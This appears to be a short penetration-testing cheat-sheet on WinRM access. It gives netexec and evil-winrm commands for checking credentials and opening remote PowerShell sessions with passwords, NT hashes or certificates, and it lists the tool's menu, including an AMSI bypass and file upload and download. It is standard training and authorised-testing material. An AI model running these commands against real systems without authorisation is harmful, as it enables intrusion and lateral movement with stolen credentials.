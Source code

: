 Open port (one of them):
- 5985/tcp
- 5986/tcp

## netexec
Verify if user credentials work
```
netexec winrm <host/IP> -u <user> -p <password>
```

## evil-winrm
https://github.com/Hackplayers/evil-winrm

This shell is the ultimate WinRM shell for hacking/pentesting.
```
# Using password
evil-winrm -u <user> -p '<password>' -i <domain>

# Using NT hash
evil-winrm -u <user> -H '<NT hash>' -i <domain>

# Using cerificates
evil-winrm -k file.key -c file.crt -i <domain>

# Connect to encrypted winrm [5986/tcp]
evil-winrm -S
```
Menu with usefull functions
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> menu
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit

```
Getting certs from PFX file: https://github.com/nestef23/my-OSCP-notes/blob/main/InitialAccess/SpecificCases/PFX_file.md
